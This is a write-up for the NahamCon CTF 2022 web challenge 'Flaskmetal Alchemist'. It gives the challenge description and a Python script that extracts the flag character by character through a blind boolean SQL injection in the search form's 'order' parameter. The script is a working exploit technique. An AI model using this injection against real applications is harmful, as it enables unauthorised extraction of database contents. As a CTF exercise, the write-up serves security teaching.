 ```yaml
---
name: Flaskmetal Alchemist (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Flaskmetal Alchemist (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flaskmetal Alchemist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=705 "NahamCon CTF 2022: Flaskmetal Alchemist")

## Description

> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

## Solution

{% code overflow="wrap" %}
```py
import requests
import string
from bs4 import BeautifulSoup

url = 'http://challenge.nahamcon.com:30010/'
flag = 'flag{'
index = 6

# Until we've got the whole flag
while flag[-1] != '}':
    for char in list('_' + string.ascii_lowercase + '}'):  # Charset
        # Post data, orderby is the SQLi (blind boolean)
        data = {"search": "",
                "order": f"(CASE WHEN (SELECT (SUBSTR(flag, {index}, 1)) from flag ) = '{char}' THEN name ELSE atomic_number END) DESC--"}

        response = requests.post(url, data=data)
        # Extract the first value
        extracted = BeautifulSoup(response.text, features="lxml").td.contents[0]

        # If it's 116 (Livermorium) then condition is false
        if extracted != '116':
            flag += char
            print(flag)
            index += 1
            break
```
{% endcode %}
